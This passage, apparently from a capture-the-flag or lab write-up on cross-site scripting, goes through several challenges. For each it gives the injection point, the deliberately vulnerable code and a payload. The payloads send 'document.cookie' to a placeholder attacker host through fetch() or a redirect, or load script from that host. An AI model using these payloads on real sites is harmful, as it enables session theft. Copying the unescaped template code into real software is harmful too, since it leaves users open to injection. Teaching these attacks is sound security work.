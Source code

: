 * **Sink:** `innerHTML` in browser JavaScript (DOM)
* **Payload:**

  ```html
  #<img src=1 onerror=fetch('http://YOUR-IP:PORT/?cookie='+document.cookie)>
  ```
* **Explanation:**

  * Attacker injects an HTML tag with a JavaScript handler.
  * `fetch()` sends cookies to attacker's server.
  * Exploits the browser's rendering of unescaped HTML.

---

## ✅ Challenge: xss-6 - Server-Side Reflected XSS

* **Injection Vector:** URL query parameter `?name=...`
* **Vulnerable Code:**

  ```js
  res.send(`<h1>Hello ${name}</h1>`);
  ```
* **Sink:** Server-rendered HTML response
* **Payload:**

  ```html
  <script src="http://YOUR-IP:PORT/"></script>
  ```
* **Explanation:**

  * Injected as part of the server's HTML.
  * The `<script>` tag loads attacker’s JS file.
  * Bypasses inline script filtering by referencing external file.

---

## ✅ Challenge: xss-7 - JavaScript Context Injection

* **Injection Vector:** Malicious cookie value (`auth=...`)
* **Vulnerable Code:**

  ```html
  <script>
      let auth = "${cookie}";
  </script>
  ```
* **Sink:** JavaScript variable inside `<script>` tag
* **Payload:**

  ```js
  ";location='http://YOUR-IP:PORT/?cookie='+document.cookie;//
  ```
* **Explanation:**

  * Breaks out of JS string and inserts new JS code.
  * Redirects browser to send cookies to attacker.
  * Ends line with `//` to comment out remaining code.

---